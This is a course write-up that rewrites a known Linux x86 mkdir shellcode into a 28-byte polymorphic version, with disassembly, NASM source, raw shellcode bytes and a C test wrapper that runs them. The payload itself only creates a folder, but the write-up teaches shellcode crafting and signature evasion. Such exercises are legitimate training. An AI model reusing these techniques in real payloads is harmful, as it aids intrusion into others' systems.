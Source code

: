 # Mkdir

<p style="text-align: justify;">Address of the original shellcode:</p>
- [http://shell-storm.org/shellcode/files/shellcode-542.php](http://shell-storm.org/shellcode/files/shellcode-542.php)

Original source code:
```c


The comment in that file is not correct.. I cut and pasted the shell code
in an existing c source and forgot to adjust it..

/*
 * This shellcode will do a mkdir() of 'hacked' and then an exit()
 * Written by zillion@safemode.org
 *
 */

char shellcode[]=
        "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed"
        "\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68"
        "\x61\x63\x6b\x65\x64\x23";


void main()
{

  int *ret;
  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
```
To illustrate the appearance of the NASM code of the above shellcode, we will use the ndisaasm command.
```nasm
$ echo -ne "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x23" | ndisasm -u -

00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
00000018  E8E5FFFFFF        call dword 0x2
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
<p style="text-align: justify;">I will try to present my polymorphic shellcode in parts (and finally the whole) in order to explain in detail the changes and improvements I have made.</p>

### sys_mkdir()

Original code:
```nasm

00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
[..]
00000018  E8E5FFFFFF        call dword 0x2        <--- Everything from here means "Push 'hacked#' on top of the stack
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
Code after changes:
```nasm
  xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir () system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	      ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
```
<p style="text-align: justify;">As we can see, I gave up the JMP-CALL-POP technique in favor of placing a string with the name of the created folder on the stack with a null being a string terminator. This trick allowed to save up to 8 bytes!
</p>

### sys_exit()

Original code:
```nasm
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
```
Code after changes:
```nasm
  add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```
<p style="text-align: justify;">Only one line has been changed - the ADD instruction was used instead of the MOV instruction.
</p>

### Full code after changes

```nasm
; Filename: 	mkdir.nasm
; Author:   	Jakub Heba
; Purpose:	  SLAE Course & Exam

global _start			

section .text
_start:
	xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir () system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	      ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
	add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```

### Compiling and Execution

```sh
$ ./compile.sh mkdir
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80"
```
<p style="text-align: justify;">Shellcode.c wrapper file content:</p>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Execution:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ls
compile.sh  shellcode  shellcode.c  template  template.nasm  template.o

$ ./shellcode 
Shellcode Length:  28

$ ls -la
total 44
drwxrwxr-x 3 slae slae 4096 Mar 30 12:45 .
drwxrwxr-x 5 slae slae 4096 Mar 25 05:33 ..
-rwxrwxr-x 1 slae slae  310 Mar 25 13:41 compile.sh
-rw------- 1 slae slae  710 Mar 25 16:00 .gdb_history
drwxr-xr-x 2 root root 4096 Mar 30 12:45 hacked           <------
-rwxr-xr-x 1 root root 7462 Mar 30 12:44 shellcode
-rw-rw-r-- 1 slae slae  287 Mar 30 12:43 shellcode.c
-rwxr-xr-x 1 root root  534 Mar 30 12:43 template
-rw-rw-r-- 1 slae slae  232 Mar 25 16:05 template.nasm
-rw-rw-r-- 1 slae slae  448 Mar 30 12:43 template.o
```

### Summary

Original shellcode length:

- **36 bytes**

Length of polymorphic shellcode:

- **28 bytes**

Difference in length:

- **~22% shorter!**

### Pwned.
